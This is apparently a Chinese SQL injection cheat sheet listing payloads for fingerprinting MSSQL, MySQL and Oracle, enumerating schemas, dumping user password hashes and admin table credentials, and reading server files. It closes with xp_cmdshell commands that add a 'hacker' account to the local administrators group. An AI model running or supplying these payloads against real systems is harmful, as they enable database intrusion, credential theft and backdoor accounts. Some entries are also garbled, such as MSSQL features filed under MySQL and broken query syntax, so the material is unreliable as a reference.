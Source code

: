 # SQL 注入


## 不同数据库的区别

### 基本信息探测

1. 数据库类型探测
   - MSSQL
     - 具有全局变量 @@version, @@servername
     - 特有函数: db_name()
     - 判断是否有特有表: sysobjects, select * from sysobjects
     - 判断是否支持子语句查询: select count(1) from [sysobjects]
   - MySQL
     - load data infile, load_file, 用于读取文件
     - select ... into dumpfile/outfile用于写入文件
     - bulk insert 语句, 可用于读取源文件, 配置文件, 证书文件
     - sp_oamethod, sp_oacreate, xp_fileexist
   - ORACLE
     - utl_file 包, java存储过程
     - oracle 读取数据时需要跟上表名, 没有的情况下可以使用虚表 Dual, 那么可以通过判断带 `Dual` 的语句是否正常执行, 即可判断数据库是否为oracle
       - eg. select user from Dual

2. MySQL 注入基础语句
   - 查询版本, select @@version
   - 查询用户名, select user()
   - 查询系统用户名, select system_user()
   - 查询所有用户: select user, super_priv from mysql.user
   - databases: select schema_name from information_schema.schemata
   - tables: select table_schema, table_name from information_schema.columns
   - columns: select table_name, column_name from information_schema.columns
   - current database name: select database()
   - query another database
     - use <database_name>; select database();
     - select <column> from <database_name>.<table_name>
   - number of columns:select count(*) from information_schema.columns where table_name = '<table_name>'
   - dba accounts: select host, user from mysql.user where super_priv='Y'
   - hashes password hashes: select host, user password from mysql.user
   - schema: select schema()
   - path to db data: select @@datadir
   - read files: select load_file('/file/to/read')

3. MSSQL 注入基础语句
   - xp_cmdshell: select count(*) from master.dbo.sysobjects where name='xp_cmdshell')
   - xp_regread: select count(*) from master.dbo.sysobjects where name='xp_regread')
   - xp_addextendedproc: select count(*) from master.dbo.sysobjects where name='xp_addextendedproc')
   - xp_subdirs: select count(*) from master.dbo.sysobjects where name='xp_subdirs')
   - xp_dirtree: select count(*) from master.dbo.sysobjects where name='xp_dirtree')
   - sysobjects: select * from sysobjects
   - 判断是不是 sysadmin, public角色成员: select IS_SRVROLEMEMBER('sysadmin')
   - 判断是不是 db_owner角色成员: select IS_MEMBER('db_owner')
   - 判断师傅是可以读取其他库: select HAS_DBACCESS('master')
   - 版本判断: select @@VERSION
   - 判断本地服务器名: select @@servername
   - 判断是否支持多行: ;declare @d int
   - 判断是否支持注释符(两个-, 一个空格): -- abcd
   - 判断是否支持注释符 /**/
   - 判断是否支持子语句查询
   - 判断服务器登录名, 如果出现dbo, 证明是sa登录名
   - 判断数据库名
     - and (select db_name()) > 0
     - and (select top 1 name from master.dbo.sysdatabases where name not in (select top N name from master.dbo.sysdatabases order by dbid)) > 1
   - 判断表名: select top 1 name from sysobjects where xtype='u' and name not in (select top N name from sysobjects where xtype='u')
   - 判断列名: 
     - select * from aspcms_admin having 1=1 /*aspcms_admin.ID*/
     - select * from aspcms_admin group by aspcms_admin.ID having 1=1 /*aspcms_admin.usernmae*/
     - select top 1 col_name(object_id('aspcms_admin'), N) from sysobjects)
   - 判断字段内容, 观察页面输出数字
     - select 1, 2, 3 from aspcms_admin
   - 判断字段内容, 爆内容
     - select id, usernmae, password from aspcms_admin
   - 利用 xp_cmdshell 提权, 这里本质上是用xp_cmdshell执行cmd命令, 用 net 命令创建了高权限用户: 
     - exec master.dbo.xp_cmdshell 'net user hacker 123qwe /workstations: * /times:all /passwordchg:yes /passwordreq:yes /active:yes /add';-- 
     - exec master.dbo.xp_cmdshell 'net localgroup administrators hacker /add'; --

4. Oracle 注入基础语句
  - Version 查询
    - select banner from v$version where banner like 'Oracle%';
    - select banner from v$version where banner like 'TNS%";
    - select version from v$instance;
  - user 查询用户: select user from Dual
  - user 查询所有用户: 
    - select username from all_users order by username;
    - select name from sys.user$;
  - Tables 查询所有表
    - select table_name from all_tables;
    - select owner, table_name from all_tables;
  - 查询表中的列:
    - select owner, table_name from all_tab_columns where column_name like '%PASS%';
  - 查询所有列
    - select column_name from all_tab_columns where table_name = '<table name>';
    - select column_name from all_tab_columns where table_name = '<table name>' and owner = '<user name>';
  - 查询当前数据库
    - select global_name from global_name
    - select name from v$database;
    - select instance_name from v$instance;
    - select sys.database_name from dual;
  - 查询database所有数据库:
    - select distinct owner from all_tables;
  - DBA账户: select distinct grantee from dba_sys_privs where admin_option = 'yes'
  - Privileges
    - select * from session_privs; (retrieves current privs)
    - select * from dba_sys_privs where grantee = 'DBSNMP';
    - select grantee from dba_sys_privs where privilege = 'select any dictionary'
    - select grantee, granted_role from dba_role_privs;
  - location of db files:
    - select name from v$datafile
  - hostname, ip address:
    - select UTL_INADDR.get_host_name from Dual;
    - select host_name from v$instance;
    - select UTL_INADDR.get_host_address from Dual; (Gets Ip address)
    - select UTL_INADDR.get_host_name("ip address) from Dual, (gets hostname)

### 提权

#### MSSQL

1. 利用 xp_cmdshell 执行系统命令, 进行高权限账号操作